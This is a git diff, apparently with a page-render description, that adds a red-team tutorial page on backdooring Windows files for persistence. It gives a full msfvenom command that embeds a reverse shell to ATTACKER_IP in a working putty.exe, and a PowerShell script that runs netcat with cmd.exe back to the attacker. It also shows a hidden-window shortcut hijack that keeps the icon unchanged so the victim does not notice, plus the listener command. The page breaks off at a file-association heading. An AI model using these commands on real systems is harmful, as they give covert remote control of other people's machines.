

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/persistence/backdoor-files.md, in a window 1280 px wide and 1400 px high, scrolled down 270 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/persistence/backdoor-files.md
+++ b/source/docs/persistence/backdoor-files.md
@@ -1 +1,55 @@
 # Backdooring files
+
+Another method of establishing persistence tampers with files we know users interact with regularly.
+We can plant backdoors that will get executed whenever the user accesses them. We do not want to create any alerts
+that could blow our cover, so the files we alter must keep working for the user as expected.
+
+There are many ways and files to plant backdoors in. These are the most commonly used ones.
+
+## Executable Files
+
+Any executable lying around the desktop are highly likely used frequently. Suppose we find a shortcut to `PuTTY`.
+Checking the shortcut's properties, it probably points to `C:\Program Files\PuTTY\putty.exe`. We could download the
+executable to our attacker's machine and modify it to run any payload we wanted.
+
+To create a backdoored `putty.exe`:
+
+    msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
+
+The binary will still work as usual and will execute an additional payload silently by adding an extra thread in the
+binary. The resulting `puttyX.exe` will execute a `reverse_tcp meterpreter` payload without the user noticing it.
+
+## Shortcut files
+
+If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing
+directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute
+the usual program normally.
+
+For example, if there is a calc shortcut, find where it is pointing to by right-clicking it and going to properties.
+
+Create a Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse
+shell and then run `calc.exe` from the original location on the shortcut's properties:
+
+    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
+
+    C:\Windows\System32\calc.exe
+
+Save it as `backdoor.ps1`, or perhaps something less conspicuous.
+
+Change the shortcut to point to the script. Its icon might be automatically adjusted while doing so. Be sure to point
+the icon back to the original executable so that no visible changes appear to the user. We also want to run the script
+in a hidden window, for which we add the `-windowstyle hidden` option to Powershell.
+
+Making the final target of the shortcut (in the calc properties window, don't forget the icon):
+
+    powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
+
+Start a netcat listener to receive the reverse shell:
+
+    nc -nlvp 4445
+
+Try it out by double-clicking the shortcut, see that there is a connection back to the attack machine, and that
+the user will get a calculator just as expected. There may be a command prompt flashing up and disappearing
+immediately on the screen. A regular user might not mind too much about that, maybe.
+
+## Hijacking file associations
```
